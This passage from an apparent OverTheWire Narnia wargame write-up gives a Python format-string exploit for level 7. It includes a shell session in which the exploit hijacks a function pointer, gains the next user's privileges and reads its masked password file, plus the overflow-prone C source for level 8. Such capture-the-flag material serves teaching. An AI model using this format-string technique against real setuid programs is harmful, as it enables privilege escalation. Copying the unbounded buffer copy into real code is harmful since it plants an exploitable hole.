 {% highlight python %}
import struct

address = 0xffffd61c
value = 0x8706

buf = struct.pack('<I', address)
buf += 'AAAA'
buf += '%x.'*4
buf += '%'+str(value-0x2b+1+0x6)+'x'
buf += '%hn'

print buf
{% endhighlight %}

{% highlight bash %}
narnia7@melinda:/tmp/silentmoose$ /narnia/narnia7 `python exploit.py`
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd61c)
I guess you want to come to the hackedfunction...
Way to go!!!!$ id
uid=14007(narnia7) gid=14007(narnia7) euid=14008(narnia8) groups=14008(narnia8),14007(narnia7)
$ cat /etc/narnia_pass/narnia8
XXXXXXXXXX
{% endhighlight %}

On to the final challenge.

## Level8 &rarr; Level9 {#level9}

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
// gcc's variable reordering fucked things up
// to keep the level in its old style i am 
// making "i" global unti i find a fix 
// -morla 
int i;

void func(char *b){
        char *blah=b;
        char bok[20];
        //int i=0;

        memset(bok, '\0', sizeof(bok));
        for(i=0; blah[i] != '\0'; i++)
                bok[i]=blah[i];

        printf("%s\n",bok);
}

int main(int argc, char **argv){

        if(argc > 1)
                func(argv[1]);
        else
                printf("%s argument\n", argv[0]);

        return 0;
}
{% endhighlight %}


[Narnia]: http://overthewire.org/wargames/narnia/
[OverTheWire]: http://overthewire.org
[pwntools]: https://github.com/Gallopsled/pwntools